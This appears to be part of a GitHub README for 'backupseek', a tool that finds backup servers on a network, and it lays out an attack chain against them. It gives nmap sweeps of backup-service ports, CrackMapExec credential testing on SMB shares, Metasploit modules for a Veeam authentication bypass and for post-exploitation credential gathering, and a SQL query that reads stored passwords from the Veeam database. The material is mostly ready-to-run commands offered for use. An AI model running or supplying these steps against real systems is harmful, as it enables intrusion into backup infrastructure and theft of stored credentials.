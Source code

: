## Integration Examples

### With Nmap
```bash
# 1. Fast port discovery
nmap -p 9392,9393,9419,9876,44445,9101-9103 \
     192.168.10.0/24 -oG backup_ports.txt

# 2. Extract IPs
grep "open" backup_ports.txt | cut -d' ' -f2 > backup_ips.txt

# 3. Detailed scan
./backupseek.py backup_ips.txt --full
```

### With CrackMapExec
```bash
# 1. Discover backup servers
./backupseek.py targets.txt --full

# 2. Test credentials on shares
crackmapexec smb backuplist.txt -u admin -p 'P@ssw0rd' --shares
```

### With Metasploit
```bash
# Veeam authentication bypass
use auxiliary/scanner/veeam/veeam_backup_manager_auth_bypass
set RHOSTS file:backuplist.txt
run

# Credential extraction (post-exploitation)
use post/windows/gather/credentials/veeam_backup_manager
set SESSION 1
run
```

## Credential Extraction

### Veeam Database
```sql
-- Connect to VeeamBackup SQL database
SELECT 
    user_name,
    description,
    encrypted_password
FROM [dbo].[Credentials];

-- Decrypt requires:
-- 1. Local admin on Veeam server, OR
-- 2. Domain admin access, OR
-- 3. Veeam service account credentials
```
